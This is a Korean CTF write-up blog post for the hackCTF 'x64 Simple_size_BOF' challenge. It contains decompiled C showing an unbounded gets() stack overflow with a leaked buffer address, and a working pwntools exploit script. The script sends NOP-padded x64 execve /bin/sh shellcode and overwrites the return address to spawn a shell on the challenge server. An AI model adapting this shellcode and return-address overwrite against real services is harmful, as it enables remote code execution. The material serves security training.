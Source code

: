 ```yaml
---
layout: post
title:  "[hackCTF]x64 Simple_size_BOF"
date:   2020-02-18
categories: [hackCTF]
tags: [hackCTF]
permalink: '/hackCTF'
---
```


hackCTF pwnable 6번째 문제

![favicon](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/favicons.png?raw=true)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-6D30h]

  setvbuf(bss_start, 0LL, 2, 0LL);
  puts(&s); // s에 저장된 문자열을 출력한다
  printf("buf: %p\n", &v4); // v4의 주소를 출력한다
  gets(&v4); // stdin으로부터 문자열을 입력 받아 v4에 저장한다
  return 0;
}
```
<br>

정리해보자.<br><br>

***

| ret |            |
|:---:|:----------:|
| sfp |     rbp    |
| ... |            |
|  v4 | rbp-0x6D30 |

***
<br>

![0602](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/0602.JPG?raw=true)  
NX 보호기법이 미적용되었으므로 stack에서 쉘코드를 실행시킬 수 있다.  gets로 v4에 쉘코드를 저장하고 ret을 v4의 시작주소로 덮어 문제를 해결하자.<br><br><br>
![0601](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/0601.JPG?raw=true)  
이 때 ASLR 보호기법이 적용되어 파일을 실행할 때마다 주소가 변하므로 처음 v4의 주소를 출력하면 그 주소를 받아 payload를 완성해야 한다.<br><br>
목표 : 계속 변하는 v4의 주소로 ret을 덮는 payload 완성하기<br>
취약점 : gets(&v4)<br><br><br>

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3005)

p.recvuntil("buf: ") # "buf: "까지 받는다

buf = int(p.recv(14), 16) # 14바이트를 받고 16진수로 변환하여 buf에 저장

payload = "\x90"*0x9 # nop으로 일부 채우기

payload += "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05" # 쉘코드

payload += "\x90"*(0x6D30 - 0x20 + 0x8) # sfp까지 nop으로 채우기

payload += p64(buf) # 앞에서 받은 v4의 주소(buf) 추가

p.sendline(payload)

p.interactive()
```

## 결과
![0603](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/0603.JPG?raw=true)
